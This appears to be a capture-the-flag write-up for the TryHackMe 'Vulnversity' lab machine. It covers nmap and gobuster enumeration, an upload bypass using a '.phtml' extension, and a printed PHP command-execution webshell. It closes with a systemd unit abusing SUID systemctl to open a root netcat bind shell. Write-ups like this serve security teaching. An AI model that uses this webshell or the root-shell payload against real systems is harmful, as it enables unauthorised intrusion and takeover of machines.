






# Overview

Machine : [Vulnersity](https://tryhackme.com/room/vulnversity)
Platform : [Tryhackme](https://tryhackme.com/)
Difficulty : easy
Category : Linux & Web

# Enumeration 

i used fast scan on all ports with service&OS detection also skiping host discovery...
```
sudo nmap -p- -A -T4 10.130.135.118 -oN result
```

it return with interesting results

```
Nmap scan report for 10.130.135.118
Host is up (0.034s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.5
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0d:b6:0a:63:a7:a8:28:c2:83:88:ce:e7:aa:96:b7:21 (RSA)
|   256 2e:db:dc:53:1d:1f:07:b0:8d:55:60:f1:cc:9e:e1:ea (ECDSA)
|_  256 75:24:d5:a0:91:97:e2:17:e2:3f:83:65:22:e5:59:3b (ED25519)
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
3128/tcp open  http-proxy  Squid http proxy 4.10
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.10
3333/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Vuln University
Device type: bridge|general purpose|VoIP adapter|media device|printer
Running (JUST GUESSING): Oracle Virtualbox (95%), Slirp (95%), QEMU (95%), AT&T embedded (93%), Sanyo embedded (86%), Dell embedded (85%), Wind River VxWorks (85%)
OS CPE: cpe:/o:oracle:virtualbox cpe:/a:danny_gasparovski:slirp cpe:/a:qemu:qemu cpe:/h:sanyo:plc-xu88 cpe:/h:dell:1815dn cpe:/o:windriver:vxworks
Aggressive OS guesses: Oracle Virtualbox Slirp NAT bridge (95%), QEMU user mode network gateway (95%), AT&T BGW210 voice gateway (93%), Sanyo PLC-XU88 digital video projector (86%), Dell 1815dn printer (85%), VxWorks (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2026-04-06T19:07:02
|_  start_date: N/A
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: 3s

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.34 ms 10.130.135.118
```
after investigating webserver & do gobuster directory scan to enumerate website we found upload page

```bash
gobuster dir -u "http://10.130.135.118:3333/" -w /usr/sahre/wordlist/big.txt
```

at "http://10.130.135.118:3333/internal/" 



# Weaponization

now we need to know which backend language this website written to upload proper webshell.
So using burpsuite we will catch upload `POST` request then brute force the valid file extension to detect which language to upload .



after trying available `php` extensions we found that `phtml` is the proper extension. 

then we will grep webshell 

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html
```

# Initial access
after investigate the webshell



now we have a shell. then we will catch it with our attacking machine


# Privilege Escalation 

by doing simple enumeration we can search for SUID bits 
```bash
find / -perm -04000 -type f -ls 2>/dev/null
```

we found this file `/bin/systemctl` which can lead us to root shell via this command

```bash
[Unit]
Description=roooooooooot
[Service]
Type=simple
User=root
ExecStart=/bin/sh -c 'rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 8888 > /tmp/f'
[Install]
WantedBy=multi-user.target
```

creating bind shell in machine with root privilege. So we need to find writable file to download this payload on it

```bash
find / -writable -type d 2>/dev/null
```

we found `/tmp` directory is writable so we will install payload inside it with name `root.service`

then we should active this payload

```bash
systemctl link /tmp/root.service
systemctl enable --now /tmp/root.service
```

now we have shell with root privilege let's catch it ...



## flag




